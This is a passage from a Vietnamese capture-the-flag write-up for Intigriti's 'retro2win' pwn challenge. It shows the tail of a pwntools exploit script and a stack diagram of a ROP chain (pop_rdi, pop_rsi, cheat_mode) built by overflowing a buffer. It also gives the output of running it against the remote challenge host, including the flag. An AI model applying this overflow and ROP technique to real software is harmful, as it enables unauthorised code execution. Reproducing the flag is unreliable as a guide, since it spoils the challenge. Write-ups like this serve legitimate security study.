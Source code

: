 ```python
sla(b'option:', b'1337')
sla(b'cheatcode:', pay)

p.interactive()
```

Khi ta exit khỏi **enter\_cheatcode()** nó sẽ **return** về **pop\_rdi** đến **rop\_rsi\_r5** và rồi **cheat\_code()** và stack sẽ trông như thế này:

```bash
+---------------+       +---------------+ 
|  ........     | ----> |  AAAAAAAA     |    
|---------------|       |---------------|
|  saved rbp    |       |  BBBBBBBB     |
|---------------|       |---------------|
|  saved rip    |       |  pop_rdi      |
|---------------|       |---------------|
|               |       |  0x2323.....  |
|---------------|       |---------------|
|               |       |  pop_rsi      |
|---------------|       |---------------|
|               |       |  0x4242.....  |
|---------------|       |---------------|
|               |       |  dummy_value  |    <--- pop r5
|---------------|       |---------------|
|               |       |  cheat_mode   |
|               |       |               |
+---------------+       +---------------+
```

```bash
➜  challenge python3 exploit.py REMOTE
[+] Opening connection to retro2win.ctf.intigriti.io on port 1338: Done
[*] Switching to interactive mode

Checking cheatcode: AAAAAAAAAAAAAAAABBBBBBBB\xb3        @!
CHEAT MODE ACTIVATED!
You now have access to secret developer tools...

FLAG: INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}
[*] Got EOF while reading in interactive
```
